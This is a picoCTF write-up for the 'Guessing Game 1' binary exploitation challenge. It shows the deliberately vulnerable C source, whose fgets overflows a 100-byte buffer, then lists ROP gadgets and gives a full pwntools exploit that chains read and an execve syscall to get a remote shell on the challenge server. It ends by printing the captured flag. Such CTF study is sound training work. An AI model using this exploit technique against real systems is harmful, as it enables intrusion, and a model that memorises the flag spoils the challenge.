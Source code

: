 # Guessing Game 1
- Tags: Binary Exploitation
- Description: I made a simple game to show off my programming skills. See if you can beat it!

# Solution
- First, we need to check what protections does the program has.

```
$ file ./vuln
./vuln: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=94924855c14a01a7b5b38d9ed368fba31dfd4f60, not stripped
```

```
$ checksec ./vuln
[*] 'path'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

- Interestingly, the 64-bit executable is statically linked, this can only mean two things:

1. The program does nearly nothing.
2. The program contains all the function it needs, including the functions that usually are implemented inside the "libc".

- Let's analyze source code of the program:

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#define BUFSIZE 100
long increment(long in) {
 return in + 1;
}
long get_random() {
 return rand() % BUFSIZE;
}
int do_stuff() {
 long ans = get_random();
 ans = increment(ans);
 int res = 0;
 
 printf("What number would you like to guess?\n");
 char guess[BUFSIZE];
 fgets(guess, BUFSIZE, stdin);
 
 long g = atol(guess);
 if (!g) {
  printf("That's not a valid number!\n");
 } else {
  if (g == ans) {
   printf("Congrats! You win! Your prize is this print statement!\n\n");
   res = 1;
  } else {
   printf("Nope!\n\n");
  }
 }
 return res;
}
void win() {
 char winner[BUFSIZE];
 printf("New winner!\nName? ");
 fgets(winner, 360, stdin);
 printf("Congrats %s\n\n", winner);
}
int main(int argc, char **argv){
 setvbuf(stdout, NULL, _IONBF, 0);
 // Set the gid to the effective gid
 // this prevents /bin/sh from dropping the privileges
 gid_t gid = getegid();
 setresgid(gid, gid, gid);
 
 int res;
 
 printf("Welcome to my guessing game!\n\n");
 
 while (1) {
  res = do_stuff();
  if (res) {
   win();
  }
 }
 
 return 0;
}
```

- In order to craft the two ROP-chains we need the following local gadgets/addresses:

1. A “pop rax; ret” gadget.
2. A “pop rdi; ret” gadget.
3. A “pop rsi; ret” gadget.
4. A “pop rdx; ret” gadget.
5. A “syscall” gadget.
6. The address of the read() function.
7. The address of the first instruction of the main function.
8. An address belonging to a writable segment of memory.

- So, this the final exploit to get to the "syscall", get the interactive shell and receive the flag.

```
#!/bin/python3
from pwn import *
HOST = 'jupiter.challenges.picoctf.org'
PORT = 51462
EXE  = './vuln'
r = remote(HOST, PORT)
elf = ELF(EXE)

main    = 0x400c8c
pop_rax = 0x4163f4
pop_rdi = 0x400696
pop_rsi = 0x410ca3
pop_rdx = 0x44a6b5
syscall = 0x40137c
bss     = 0x6bc4a0
read    = elf.symbols['read']
random_sequence = [84, 87, 78, 16, 94]

r.recvuntil(b'What number would you like to guess?\n')
r.sendline(str(random_sequence[0]).encode())
r.recvuntil(b'Name? ')

payload  = b'\x90'*120
payload += p64(pop_rdi)
payload += p64(0)
payload += p64(pop_rsi)
payload += p64(bss)
payload += p64(pop_rdx)
payload += p64(9)
payload += p64(read)
payload += p64(main)
r.sendline(payload)

input('The program has been exploited. Press ENTER to get a remote shell...')
r.sendline(b'/bin/sh\x00')
r.recvuntil(b'What number would you like to guess?\n')
r.sendline(str(random_sequence[1]).encode())
r.recvuntil(b'Name? ')

payload  = b'\x90'*120
payload += p64(pop_rax)
payload += p64(0x3b)
payload += p64(pop_rdi)
payload += p64(bss)
payload += p64(pop_rsi)
payload += p64(0)
payload += p64(pop_rdx)
payload += p64(0)
payload += p64(syscall)

r.sendline(payload)
r.interactive()
```

- Once we got the access to interactive shell, we can "cat" the flag and the challenge is done.

```
picoCTF{r0p_y0u_l1k3_4_hurr1c4n3_44d502016ea374b8}
```

